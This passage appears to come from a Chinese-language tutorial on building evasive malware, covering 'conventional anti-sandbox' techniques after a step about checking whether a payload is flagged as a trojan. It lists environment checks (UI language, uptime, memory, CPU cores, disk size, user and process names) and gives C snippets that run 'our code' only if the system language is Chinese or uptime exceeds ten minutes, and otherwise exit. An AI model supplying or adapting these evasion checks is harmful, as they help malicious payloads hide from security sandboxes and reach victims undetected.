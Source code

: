 首先查杀是否是木马

![截图](c78a37bcc756dba3722062f681095161.png)

## 3.3常规反沙箱

我们可以通过 语言检测 , 开机时间、延迟执行、物理内存、CPU核心数，文件名、磁盘大小、用户名、进程名去判断是否是在沙箱的环境中, 如果是在沙箱的环境, 那就退出

### 检测中文

```
int check() {
LANGID langId = GetUserDefaultUILanguage();
if (PRIMARYLANGID(langId) == LANG_CHINESE)
 {
printf("Chinese");
RunCode(); // 运行我们的代码
 }
else
 {
printf("Error");
exit(1);
 }
return 0;
}
```

### 检测开机时间

```
int checkStartTime(){
ULONG uptime = GetTickCount();
if (uptime >= 10 * 60 * 1000) { // 开机时间大于10分钟
RunCode(); // 运行我们的代码
 }
else {
exit(1);
 }
}
```
